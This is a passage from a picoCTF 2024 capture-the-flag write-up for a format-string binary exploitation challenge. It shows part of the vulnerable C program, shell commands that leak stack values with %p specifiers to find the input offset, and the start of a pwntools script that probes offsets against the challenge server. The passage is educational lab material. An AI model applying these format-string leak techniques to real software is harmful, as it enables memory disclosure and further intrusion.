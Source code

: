 ```c
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
The program does the following:
- Prints some greeting text and ask us for input
- Reads 1024 bytes of input, stores it in `buf` and prints the buffer
- Checks if `sus` has changed to `flag` (from the initial `sus!`) then reads and prints the flag
- Else prints the hex-value of `sus` and ask us to do better

### Get the input offset

The offset of our input can be found manually by inputting a known string (`ABCDEFGH`) followed by a long string of items of the form `<offset>:%p<delimiter>`. Here I have used pipes (`|`) as delimiter.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,20)]))" | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: ABCDEFGH|1:0x7fff00ef1480|2:(nil)|3:(nil)|4:0xa|5:0x400|6:0x7f33152777b0|7:0x7f33152a9ab0|8:0x7fff00ef1760|9:0x7f3315280fc8|10:0x1|11:0x7fff00ef1790|12:(nil)|13:0x7f3315277ca8|14:0x4847464544434241|15:0x3a327c70253a317c|16:0x7c70253a337c7025|17:0x253a357c70253a34|18:0x377c70253a367c70|19:0x70253a387c70253a
sus = 0x21737573
You can do better!
```
Offset 14 looks promising and is indeed the ASCII-version of our input (in reverse order due to endianness).
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ echo '4847464544434241' | xxd -r -p | rev
ABCDEFGH 
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us
```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654
MY_INPUT = 'ABCDEFGH'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"\n---------- Trying offset {i} ----------\n")
    io.sendlineafter(b"What do you have to say?\n", f"{MY_INPUT}%{i}$lx".encode('ascii'))
    out = io.recvlineS().split(':')[1].strip()[8:]
    log.info(f"Parsed output: {out}\n")
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        log.debug(f"Little endian value: {res_le}\n")
        if (res_le == MY_INPUT):
```